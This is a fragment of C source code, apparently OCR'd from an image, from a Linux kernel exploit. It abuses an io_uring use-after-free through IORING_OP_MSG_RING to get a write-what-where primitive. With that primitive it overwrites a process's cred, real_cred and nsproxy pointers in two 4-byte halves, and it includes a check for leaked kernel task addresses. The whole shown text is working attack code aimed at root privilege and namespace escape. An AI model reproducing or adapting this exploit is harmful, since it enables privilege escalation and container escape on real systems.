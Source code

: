 ```c
    write(g_pipe.fd[PIPE_WRITE], buf, 4096);

    // Get an sqe
    struct io_uring_sqe *sqe = NULL;
    sqe = io_uring_get_sqe(&g_ring);
    if (!sqe)
    {
        err("`io_uring_get_sqe()` failed");
    }

    // Set values
    sqe->opcode = IORING_OP_MSG_RING;
    sqe->fd = g_uaf_fd;

    int ret = io_uring_submit(&g_ring);
    if (ret < 0)
    {
        err("`io_uring_submit()` failed");
    }

    // Wait for the completion
    struct io_uring_cqe *cqe;
    ret = io_uring_wait_cqe(&g_ring, &cqe);
}

// So in this kernel code path, after we're done with our write-what-where, the 
// what value actually gets incremented ++ style, so we have to decrement
// the values by one each time.
// Also, we only have a 4 byte write ability so we have to split up the 8 bytes
// into 2 separate writes
void overwrite_cred(void)
{
    uint32_t val_1 = g_cred_what & 0xFFFFFFFF;
    uint32_t val_2 = (g_cred_what >> 32) & 0xFFFFFFFF;

    write_what_where(val_1 - 1, g_cred_where);
    write_what_where(val_2 - 1, g_cred_where + 0x4);
}

void overwrite_real_cred(void)
{
    uint32_t val_1 = g_cred_what & 0xFFFFFFFF;
    uint32_t val_2 = (g_cred_what >> 32) & 0xFFFFFFFF;

    write_what_where(val_1 - 1, g_real_cred_where);
    write_what_where(val_2 - 1, g_real_cred_where + 0x4);
}

void overwrite_nsproxy(void)
{
    uint32_t val_1 = g_nsproxy_what & 0xFFFFFFFF;
    uint32_t val_2 = (g_nsproxy_what >> 32) & 0xFFFFFFFF;

    write_what_where(val_1 - 1, g_nsproxy_where);
    write_what_where(val_2 - 1, g_nsproxy_where + 0x4);
}

// Try to fuzzily validate leaked task addresses lol
int task_valid(uint64_t task)
{
    if ((uint16_t)(task >> 48) == 0xFFFF) { return 1; }
    else { return 0; } 
}
```